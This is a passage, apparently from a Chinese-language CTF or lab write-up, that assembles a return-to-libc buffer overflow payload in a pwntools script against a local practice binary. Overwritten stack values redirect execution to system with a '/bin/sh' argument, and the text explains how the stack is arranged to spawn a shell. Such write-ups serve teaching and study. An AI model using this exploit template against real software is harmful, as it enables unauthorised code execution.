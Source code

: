 综合这些元素组装一个 payload 。

```python
from pwn import gdb
import struct

p = gdb.debug('./question32', '''
b question.c:13
continue
''')

p.send(b'/bin/sh')

payload = b'\x42' * 112
# %ecx, %ebx, %edi, %ebp, &system, &exit, &name
stack_elem = [0xffffd1c0, 0, 0, 0, 0xf7dcbcb0, 0xf7dbe1c0, 0x804c060]
payload += struct.pack('<IIIIIII', *stack_elem)
p.send(payload)

p.interactive()
```

启动调试，注意到执行到 `ret` 时，`%esp` 已经是 `system` 的地址，并预先填充了 `exit` 函数地址作为 `system` 函数的返回地址，`"/bin/sh"` 字符串的指针作为 `system` 函数的参数。

![image-20220817161537813](image-20220817161537813.png)
